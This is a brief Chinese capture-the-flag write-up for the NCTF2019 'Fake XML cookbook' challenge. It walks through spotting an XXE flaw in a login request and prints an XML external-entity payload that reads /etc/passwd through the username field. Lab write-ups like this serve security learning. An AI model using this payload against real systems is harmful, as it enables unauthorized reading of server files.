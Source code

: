 # [NCTF2019]Fake XML cookbook

## 知识点

`XXE`

## 解题

进入题目发现登录框

![](./img/[NCTF2019]FakeXMLcookbook-2.png)

看题目提示猜测`XXE`,随便输入账号密码登录抓包

![](./img/[NCTF2019]FakeXMLcookbook-1.png)

使用`xxe`的`payload`看一下有没有回显

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "file:///etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```

![](./img/[NCTF2019]FakeXMLcookbook-3.png)

发现能正常回显和读取文件，尝试读取`flag`

![](./img/[NCTF2019]FakeXMLcookbook-4.png)